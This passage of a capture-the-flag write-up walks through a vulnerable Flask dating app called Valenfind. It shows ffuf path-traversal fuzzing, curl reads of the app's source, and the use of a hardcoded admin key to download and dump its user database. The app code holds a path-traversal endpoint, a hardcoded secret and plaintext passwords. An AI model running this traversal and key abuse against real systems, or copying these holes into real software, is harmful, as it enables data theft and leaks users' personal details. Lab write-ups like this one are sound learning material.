.well-known/autoconfig/mail [Status: 200, Size: 122, Words: 12, Lines: 1, Duration: 39ms]
.well-known/change-password [Status: 200, Size: 122, Words: 12, Lines: 1, Duration: 37ms]
.well-known/dnt-policy.txt [Status: 200, Size: 121, Words: 12, Lines: 1, Duration: 42ms]
.well-known/enterprise-transport-security [Status: 200, Size: 136, Words: 12, Lines: 1, Duration: 41ms]
.well-known/http-opportunistic [Status: 200, Size: 125, Words: 12, Lines: 1, Duration: 38ms]
.well-known/host-meta.json [Status: 200, Size: 121, Words: 12, Lines: 1, Duration: 40ms]
.well-known/nfv-oauth-server-configuration [Status: 200, Size: 137, Words: 12, Lines: 1, Duration: 42ms]
.well-known/openid-federation [Status: 200, Size: 124, Words: 12, Lines: 1, Duration: 43ms]
.well-known/oauth-authorization-server [Status: 200, Size: 133, Words: 12, Lines: 1, Duration: 46ms]
.well-known/openid-configuration [Status: 200, Size: 127, Words: 12, Lines: 1, Duration: 42ms]
.well-known/pki-validation [Status: 200, Size: 121, Words: 12, Lines: 1, Duration: 37ms]
.well-known/repute-template [Status: 200, Size: 122, Words: 12, Lines: 1, Duration: 36ms]
.well-known/uma2-configuration [Status: 200, Size: 125, Words: 12, Lines: 1, Duration: 40ms]
_framework/blazor.boot.json [Status: 200, Size: 122, Words: 12, Lines: 1, Duration: 37ms]
_framework/blazor.webassembly.js [Status: 200, Size: 127, Words: 12, Lines: 1, Duration: 38ms]
_framework/wasm/dotnet.wasm [Status: 200, Size: 122, Words: 12, Lines: 1, Duration: 37ms]
_framework/_bin/WebAssembly.Bindings.dll [Status: 200, Size: 135, Words: 12, Lines: 1, Duration: 37ms]
_vti_bin/_vti_aut/author.dll [Status: 200, Size: 123, Words: 12, Lines: 1, Duration: 39ms]
_vti_bin/_vti_adm/admin.dll [Status: 200, Size: 122, Words: 12, Lines: 1, Duration: 41ms]
api/experiments/configurations [Status: 200, Size: 125, Words: 12, Lines: 1, Duration: 38ms]
apple-app-site-association [Status: 200, Size: 121, Words: 12, Lines: 1, Duration: 40ms]
node_modules/.package-lock.json [Status: 200, Size: 126, Words: 12, Lines: 1, Duration: 43ms]
render/https://www.google.com [Status: 200, Size: 124, Words: 12, Lines: 1, Duration: 38ms]
render?url=https://www.google.com [Status: 200, Size: 128, Words: 12, Lines: 1, Duration: 39ms]
dns-query?dns=q80BAAABAAAAAAAAA3d3dwdleGFtcGxlA2NvbQAAAQAB [Status: 200, Size: 153, Words: 12, Lines: 1, Duration: 40ms]
:: Progress: [4750/4750] :: Job [1/1] :: 466 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

Dead end again — every hit here is noise from the `common.txt` wordlist resolving to generic error pages, not actual files.

Went up one more directory level, to `/opt/Valenfind/` itself:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://10.112.179.60:5000/api/fetch_layout?layout=/opt/Valenfind/FUZZ.py' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -ic -c -fs 0-120 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

.well-known/apple-app-site-association [Status: 200, Size: 123, Words: 12, Lines: 1, Duration: 39ms]
.well-known/apple-developer-merchantid-domain-association [Status: 200, Size: 142, Words: 12, Lines: 1, Duration: 40ms]
.well-known/enterprise-transport-security [Status: 200, Size: 126, Words: 12, Lines: 1, Duration: 38ms]
.well-known/nfv-oauth-server-configuration [Status: 200, Size: 127, Words: 12, Lines: 1, Duration: 41ms]
.well-known/oauth-authorization-server [Status: 200, Size: 123, Words: 12, Lines: 1, Duration: 38ms]
_framework/_bin/WebAssembly.Bindings.dll [Status: 200, Size: 125, Words: 12, Lines: 1, Duration: 41ms]
app                     [Status: 200, Size: 10212, Words: 2569, Lines: 285, Duration: 42ms]
dns-query?dns=q80BAAABAAAAAAAAA3d3dwdleGFtcGxlA2NvbQAAAQAB [Status: 200, Size: 143, Words: 12, Lines: 1, Duration: 37ms]
:: Progress: [4750/4750] :: Job [1/1] :: 464 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

`app` — which with the appended `.py` is `app.py` — stands out at 10,212 bytes, significantly larger than every other hit in this and the previous scans. That is almost certainly the Flask application's own source file.

## Reading the Application Source

Requesting it directly in the browser could not render it cleanly. 



So pulled it with `curl` instead:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://10.112.179.60:5000/api/fetch_layout?layout=/opt/Valenfind/app.py' 
import os
import sqlite3
import hashlib
from flask import Flask, render_template, request, redirect, url_for, session, send_file, g, flash, jsonify
from seeder import INITIAL_USERS

app = Flask(__name__)
app.secret_key = os.urandom(24)

ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"
DATABASE = 'cupid.db'

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
        db.row_factory = sqlite3.Row
    return db

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

def init_db():
    if not os.path.exists(DATABASE):
        with app.app_context():
            db = get_db()
            cursor = db.cursor()
            
            cursor.execute('''
                CREATE TABLE users (
                    id INTEGER PRIMARY KEY AUTOINCREMENT,
                    username TEXT NOT NULL UNIQUE,
                    password TEXT NOT NULL,
                    real_name TEXT,
                    email TEXT,
                    phone_number TEXT,
                    address TEXT,
                    bio TEXT,
                    likes INTEGER DEFAULT 0,
                    avatar_image TEXT
                )
            ''')
            
            cursor.executemany('INSERT INTO users (username, password, real_name, email, phone_number, address, bio, likes, avatar_image) VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?)', INITIAL_USERS)
            db.commit()
            print("Database initialized successfully.")

@app.template_filter('avatar_color')
def avatar_color(username):
    hash_object = hashlib.md5(username.encode())
    return '#' + hash_object.hexdigest()[:6]

# --- ROUTES ---

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        db = get_db()
        try:
            cursor = db.cursor()
            cursor.execute('INSERT INTO users (username, password, bio, real_name, email, avatar_image) VALUES (?, ?, ?, ?, ?, ?)', 
                       (username, password, "New to ValenFind!", "", "", "default.jpg"))
            db.commit()
            
            user_id = cursor.lastrowid
            session['user_id'] = user_id
            session['username'] = username
            session['liked'] = []
            
            flash("Account created! Please complete your profile.")
            return redirect(url_for('complete_profile'))
            
        except sqlite3.IntegrityError:
            return render_template('register.html', error="Username already taken.")
    return render_template('register.html')

@app.route('/complete_profile', methods=['GET', 'POST'])
def complete_profile():
    if 'user_id' not in session:
        return redirect(url_for('login'))
        
    if request.method == 'POST':
        real_name = request.form['real_name']
        email = request.form['email']
        phone = request.form['phone']
        address = request.form['address']
        bio = request.form['bio']
        
        db = get_db()
        db.execute('''
            UPDATE users 
            SET real_name = ?, email = ?, phone_number = ?, address = ?, bio = ?
            WHERE id = ?
        ''', (real_name, email, phone, address, bio, session['user_id']))
        db.commit()
        
        flash("Profile setup complete! Time to find your match.")
        return redirect(url_for('dashboard'))
        
    return render_template('complete_profile.html')

@app.route('/my_profile', methods=['GET', 'POST'])
def my_profile():
    if 'user_id' not in session:
        return redirect(url_for('login'))
        
    db = get_db()
    
    if request.method == 'POST':
        real_name = request.form['real_name']
        email = request.form['email']
        phone = request.form['phone']
        address = request.form['address']
        bio = request.form['bio']
        
        db.execute('''
            UPDATE users 
            SET real_name = ?, email = ?, phone_number = ?, address = ?, bio = ?
            WHERE id = ?
        ''', (real_name, email, phone, address, bio, session['user_id']))
        db.commit()
        flash("Profile updated successfully! ✅")
        return redirect(url_for('my_profile'))
    
    user = db.execute('SELECT * FROM users WHERE id = ?', (session['user_id'],)).fetchone()
    return render_template('edit_profile.html', user=user)

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        db = get_db()
        user = db.execute('SELECT * FROM users WHERE username = ?', (username,)).fetchone()
        
        if user and user['password'] == password:
            session['user_id'] = user['id']
            session['username'] = user['username']
            session['liked'] = [] 
            return redirect(url_for('dashboard'))
        else:
            return render_template('login.html', error="Invalid credentials.")
    return render_template('login.html')

@app.route('/dashboard')
def dashboard():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    db = get_db()
    profiles = db.execute('SELECT id, username, likes, bio, avatar_image FROM users WHERE id != ?', (session['user_id'],)).fetchall()
    return render_template('dashboard.html', profiles=profiles, user=session['username'])

@app.route('/profile/<username>')
def profile(username):
    if 'user_id' not in session:
        return redirect(url_for('login'))
        
    db = get_db()
    profile_user = db.execute('SELECT id, username, bio, likes, avatar_image FROM users WHERE username = ?', (username,)).fetchone()
    
    if not profile_user:
        return "User not found", 404
        
    return render_template('profile.html', profile=profile_user)

@app.route('/api/fetch_layout')
def fetch_layout():
    layout_file = request.args.get('layout', 'theme_classic.html')
    
    if 'cupid.db' in layout_file or layout_file.endswith('.db'):
        return "Security Alert: Database file access is strictly prohibited."
    if 'seeder.py' in layout_file:
        return "Security Alert: Configuration file access is strictly prohibited."
    
    try:
        base_dir = os.path.join(os.getcwd(), 'templates', 'components')
        file_path = os.path.join(base_dir, layout_file)
        
        with open(file_path, 'r') as f:
            return f.read()
    except Exception as e:
        return f"Error loading theme layout: {str(e)}"

@app.route('/like/<int:user_id>', methods=['POST'])
def like_user(user_id):
    if 'user_id' not in session:
        return redirect(url_for('login'))
    
    if 'liked' not in session:
        session['liked'] = []
        
    if user_id in session['liked']:
        flash("You already liked this person! Don't be desperate. 😉")
        return redirect(request.referrer)

    db = get_db()
    db.execute('UPDATE users SET likes = likes + 1 WHERE id = ?', (user_id,))
    db.commit()
    
    session['liked'].append(user_id)
    session.modified = True
    
    flash("You sent a like! ❤️")
    return redirect(request.referrer)

@app.route('/logout')
def logout():
    session.pop('user_id', None)
    session.pop('liked', None)
    return redirect(url_for('index'))

@app.route('/api/admin/export_db')
def export_db():
    auth_header = request.headers.get('X-Valentine-Token')
    
    if auth_header == ADMIN_API_KEY:
        try:
            return send_file(DATABASE, as_attachment=True, download_name='valenfind_leak.db')
        except Exception as e:
            return str(e)
    else:
        return jsonify({"error": "Forbidden", "message": "Missing or Invalid Admin Token"}), 403

if __name__ == '__main__':
    if not os.path.exists('templates/components'):
        os.makedirs('templates/components')
    
    with open('templates/components/theme_classic.html', 'w') as f:
        f.write('''
        <div class="bio-box" style="
            background: #ffffff; 
            border: 1px solid #e1e1e1; 
            padding: 20px; 
            border-radius: 12px; 
            box-shadow: 0 4px 6px rgba(0,0,0,0.05); 
            text-align: left;">
            <h3 style="color: #2c3e50; border-bottom: 2px solid #ff4757; padding-bottom: 10px; display: inline-block;">__USERNAME__</h3>
            <p style="color: #7f8c8d; font-style: italic; line-height: 1.6;">"__BIO__"</p>
        </div>
        ''')
        
    with open('templates/components/theme_modern.html', 'w') as f:
        f.write('''
        <div class="bio-box modern" style="
            background: #2f3542; 
            color: #dfe4ea; 
            padding: 25px; 
            border-radius: 15px; 
            border-left: 5px solid #2ed573;
            font-family: 'Courier New', monospace;">
            <h3 style="color: #2ed573; text-transform: uppercase; letter-spacing: 2px; margin-top: 0;">__USERNAME__</h3>
            <p style="line-height: 1.5;">> __BIO__<span style="animation: blink 1s infinite;">_</span></p>
            <style>@keyframes blink { 50% { opacity: 0; } }</style>
        </div>
        ''')

    with open('templates/components/theme_romance.html', 'w') as f:
        f.write('''
        <div class="bio-box romance" style="
            background: linear-gradient(135deg, #ff9a9e 0%, #fecfef 99%, #fecfef 100%); 
            color: #c0392b; 
            padding: 30px; 
            border-radius: 50px 0 50px 0; 
            border: 2px dashed #ff6b81;
            text-align: center;">
            <div style="font-size: 2rem; margin-bottom: 10px;">💖 💘 💖</div>
            <h3 style="font-family: 'Brush Script MT', cursive; font-size: 2.5rem; margin: 10px 0;">__USERNAME__</h3>
            <p style="font-weight: bold; font-size: 1.1rem;">✨ __BIO__ ✨</p>
            <div style="font-size: 1.5rem; margin-top: 15px;">💌</div>
        </div>
        ''')

    init_db()
    app.run(debug=False, host='0.0.0.0', port=5000)
```

**Breakdown:**

- `-s` runs curl in silent mode, suppressing the progress meter so only the response body is printed

The source lays everything bare. Two things jumped out straight away:

```python
ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"
DATABASE = 'cupid.db'
```


Ran the preceeding command again, but this time piping it through `less`. Then, filtered for `ADMIN_API_Key`, and came the only other instance it appeared in the file, as well as the route that uses the key:

```python
@app.route('/api/admin/export_db')
def export_db():
    auth_header = request.headers.get('X-Valentine-Token')
    
    if auth_header == ADMIN_API_KEY:
        try:
            return send_file(DATABASE, as_attachment=True, download_name='valenfind_leak.db')
        except Exception as e:
            return str(e)
    else:
        return jsonify({"error": "Forbidden", "message": "Missing or Invalid Admin Token"}), 403
```

Sending a request to `/api/admin/export_db` with a header `X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO` would send back the entire `cupid.db` SQLite database.

## Exploiting the Admin Export Endpoint

Hit the endpoint without the header first to confirm the gate:

```
http://10.112.179.60:5000/api/admin/export_db
```



Then crafted the request with the key found in the source:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl 'http://10.112.179.60:5000/api/admin/export_db' -H 'X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO' 
Warning: Binary output can mess up your terminal. Use "--output -" to tell curl to output it to your terminal anyway, or consider "--output <FILE>" to save to a file.
```

curl refused to dump raw binary to the terminal, so saved it to a file instead:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl 'http://10.112.179.60:5000/api/admin/export_db' -H 'X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO' -o ctf_export_db 
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100  16384 100  16384   0      0 143.4k      0                              0
```

**Breakdown:**

- `-H 'X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO'` sets the custom header the route checks against `ADMIN_API_KEY`
- `-o ctf_export_db` writes the response body to a local file called `ctf_export_db` instead of printing it

## Recovering the Flag

Checked what the downloaded file actually was:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ file ctf_export_db                                                                                                                                                   
ctf_export_db: SQLite 3.x database, last written using SQLite version 3045001, file counter 4, database pages 4, cookie 0x1, schema 4, UTF-8, version-valid-for 4
```

It is the SQLite database `cupid.db`. Opened it up — being new to `sqlite3`, had to work through it with `.help` and a Google search or two:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlite3 ctf_export_db        
SQLite version 3.53.4 2026-07-24 19:02:57
Enter ".help" for usage hints.
sqlite> .databases
main: /home/—REDACTED—/ctf_export_db r/w
sqlite> .tables
users
sqlite> .schema users
CREATE TABLE users (
                    id INTEGER PRIMARY KEY AUTOINCREMENT,
                    username TEXT NOT NULL UNIQUE,
                    password TEXT NOT NULL,
                    real_name TEXT,
                    email TEXT,
                    phone_number TEXT,
                    address TEXT,
                    bio TEXT,
                    likes INTEGER DEFAULT 0,
                    avatar_image TEXT
                );
```

**Breakdown:**

- `sqlite3 ctf_export_db` opens the downloaded file as a SQLite database
- `.databases` lists the database files currently attached to the session
- `.tables` lists the tables inside the database — just `users` here
- `.schema users` prints the `CREATE TABLE` statement for the `users` table, showing its columns

Then pulled every row:

```shell
sqlite> SELECt * FROM users;
╭──┬─────────────────┬───────────────┬────────────────────────┬──────────────────────┬──────────────┬───────────────────────────────────────────┬─────────────────────────────────────────────────────────────────────┬─────┬────────────╮
│id│    username     │   password    │       real_name        │        email         │ phone_number │                  address                  │                                 bio                                 │likes│avatar_image│
╞══╪═════════════════╪═══════════════╪════════════════════════╪══════════════════════╪══════════════╪═══════════════════════════════════════════╪═════════════════════════════════════════════════════════════════════╪═════╪════════════╡
│ 1│romeo_montague   │juliet123      │Romeo Montague          │romeo@verona.cupid    │555-0100-ROMEO│123 Balcony Way, Verona, VR 99999          │Looking for my Juliet. Where art thou?                               │   14│romeo.jpg   │
│ 2│casanova_official│secret123      │Giacomo Casanova        │loverboy@venice.kiss  │555-0155-LOVE │101 Grand Canal St, Venice, Italy          │Just here for the free chocolate.                                    │    5│casanova.jpg│
│ 3│cleopatra_queen  │caesar_salad   │Cleopatra VII Philopator│queen@nile.river      │555-0001-NILE │Royal Palace, Alexandria, Egypt            │I rule an empire, but I can't rule my heart. 🐍                       │   88│cleo.jpg    │
│ 4│sherlock_h       │watson_is_cool │Sherlock Holmes         │detective@baker.street│555-221B-KEYS │221B Baker Street, London, UK              │Observant, logical, and looking for a mystery to solve (or a date).  │   21│sherlock.jpg│
│ 5│gatsby_great     │green_light    │Jay Gatsby              │jay@westegg.party     │555-1922-RICH │Gatsby Mansion, West Egg, NY, USA          │Throwing parties every weekend hoping you'll walk through the door.  │  105│gatsby.jpg  │
│ 6│jane_eyre        │rochester_blind│Jane Eyre               │jane@thornfield.book  │555-1847-READ │Thornfield Hall, Yorkshire, UK             │Quiet, independent, and looking for a connection of the soul.        │   33│jane.jpg    │
│ 7│count_dracula    │sunlight_sucks │Vlad Dracula            │vlad@night.walker     │555-0666-BITE │Bran Castle, Transylvania, Romania         │I love long walks at night and biting... necks? No, biting into life!│  666│dracula.jpg │
│ 8│cupid            │admin_root_x99 │System Administrator    │cupid@internal.cupid  │555-0000-ROOT │FLAG: —REDACTED—                           │I keep the database secure. No peeking.                              │  999│cupid.jpg   │
│ 9│Hacker           │Hacker         │Hacker                  │hacker@hacker.com     │+1 1234-5678  │Hacker                                     │Hacker                                                               │    0│default.jpg │
╰──┴─────────────────┴───────────────┴────────────────────────┴──────────────────────┴──────────────┴───────────────────────────────────────────┴─────────────────────────────────────────────────────────────────────┴─────┴────────────╯
```

`SELECT * FROM users;` returns every column of every row in the table. The `cupid` admin account has the flag sitting in its `address` field.

### What is the flag?

**Flag:** `—REDACTED—`